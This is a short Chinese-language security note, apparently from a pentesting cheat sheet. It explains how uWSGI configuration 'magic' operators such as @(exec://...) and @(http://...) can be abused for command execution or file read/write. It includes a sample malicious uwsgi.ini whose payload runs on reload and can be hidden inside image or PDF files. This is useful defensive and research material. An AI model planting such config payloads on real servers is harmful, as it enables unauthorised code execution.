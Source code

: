 
     
# uWSGI 配置文件
UWSGI配置文件可以用语法定义的“魔术”变量、占位符和运算符。特别是‘@’运算符以@(文件名)的形式使用，以包含文件的内容。解析.ini配置文件时，这些运算符可以武器化作用于远程命令执行或任意文件写入/读取。

恶意uwsgi.ini文件示例：

```ini
[uwsgi]
; 从symbol中读取
foo = @(sym://uwsgi_funny_function)
; 从二进制追加数据中读取
bar = @(data://[REDACTED])
; 从http中读取
test = @(http://[REDACTED])
; 从文件描述符中读取
content = @(fd://[REDACTED])
; 从进程标准输出读取
body = @(exec://whoami)
; 调用返回字符的函数*
characters = @(call://uwsgi_func)
```

当解析配置文件时(例如，重新启动、崩溃或自动重新加载时)，将执行payload。

## uWSGI 解析问题

uWSGI配置文件存在解析不严问题。先前的payload可以嵌入二进制文件(例如，jpg、png、pdf等)。

## 致谢

* [A New Vector For “Dirty” Arbitrary File Write to RCE - Doyensec - Maxence Schmitt and Lorenzo Stella](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html)